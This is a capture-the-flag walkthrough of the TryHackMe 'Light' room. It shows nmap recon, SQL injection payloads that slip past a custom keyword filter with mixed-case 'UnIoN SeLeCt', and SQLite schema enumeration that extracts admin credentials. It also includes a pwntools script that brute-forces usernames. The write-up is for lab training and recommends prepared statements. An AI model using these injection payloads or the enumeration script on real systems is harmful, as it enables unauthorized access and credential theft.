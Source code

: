 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey which gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Only SSH and the custom 1337 service when we nmap
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obvious admin credentails, no luck
- We try the username and password with SSH, no luck
- We hit it with a large username list, we get users like alice although no admin. included the script at the end of this walk through for those intrested
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

We find some weakness in the filtering we remove -- to find it by-passes filter but we get an syntax error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
In the error we see two '' where we have injected the SQL, so to get around the sytax error we remove ' from the end of our injection,
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

Back to find SQL type

### MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

### PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

### SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

### Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

### Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

### What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
### What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

### What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```

# Summary 
Nice room to show why custom built frameworks for preventing SQLi is a bad idea and to use [prepared statements](https://www.sqlite.org/c3ref/stmt.html). Also a good room for showcasing locating SQL version and extracting tables and column data. It took me a bit to long to start with SQLi and was focused on bruteforcing, although I do enjoy a pwntools script so was a bit of a side challenge. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools so included in the walkthrough even though it was a failed path.  

# failed exploration 

## Setting up pwntools for kali 
```
mkdir -p /home/kali/pwntools
python3 -m venv /home/kali/pwntools
source /home/kali/pwntools/bin/activate
pip install pwntools
```
## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``

